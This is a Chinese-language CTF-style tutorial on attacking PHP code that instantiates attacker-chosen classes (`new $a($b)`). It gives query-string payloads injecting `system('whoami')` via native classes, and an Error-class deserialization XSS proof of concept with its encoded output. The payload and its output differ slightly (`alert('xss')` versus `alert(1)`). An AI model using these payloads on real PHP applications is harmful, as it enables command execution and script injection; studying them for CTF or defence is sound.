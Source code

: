 ![](https://p0.ssl.qhimg.com/t018e2f2f2660a2f600.jpg)

## 前言

最近打了一个比赛遇到了以new $a($b)这样的考点,结合以前了解的知识,所以总结一下几种类似形式的解题技巧

这里主要以下三种形式的代码

 eval(“echo new $a($b);”)

 echo new $a($b)

 new $a($b)

## eval(“echo new $a($b);”)

首先来看第一种

这个形式的代码相对简单,我们只需要给a随便传⼀个原⽣类，给b传恶意命令即可：

```
?a=Exception&b=system('whoami')
?a=SplFileObject&b=system('whoami')
```

然后我们来看第二种,也是比赛中经常会遇到的

这里我们就需要来了解到php原生类的概念了

## 使用 Error/Exception 内置类进行 XSS

### Error 内置类

-   适用于php7版本
-   在开启报错的情况下

Error类是php的一个内置类，用于自动自定义一个Error，在php7的环境下可能会造成一个xss漏洞，因为它内置有一个 `__toString()` 的方法，常用于PHP 反序列化中。如果有个POP链走到一半就走不通了，不如尝试利用这个来做一个xss，其实我看到的还是有好一些cms会选择直接使用 `echo <Object>` 的写法，当 PHP 对象被当作一个字符串输出或使用时候（如`echo`的时候）会触发`__toString` 方法，这是一种挖洞的新思路。

下面演示如何使用 Error 内置类来构造 XSS。

测试代码：

```
<?php
$a = unserialize($_GET['whoami']);
echo $a;
?>
```

（这里可以看到是一个反序列化函数，但是没有让我们进行反序列化的类啊，这就遇到了一个反序列化但没有POP链的情况，所以只能找到PHP内置类来进行反序列化）

给出POC：

```
<?php
$a = new Error("<script>alert('xss')</script>");
$b = serialize($a);
echo urlencode($b);  
?>

//输出: O%3A5%3A%22Error%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A25%3A%22%3Cscript%3Ealert%281%29%3C%2Fscript%3E%22%3Bs%3A13%3A%22%00Error%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7D
```
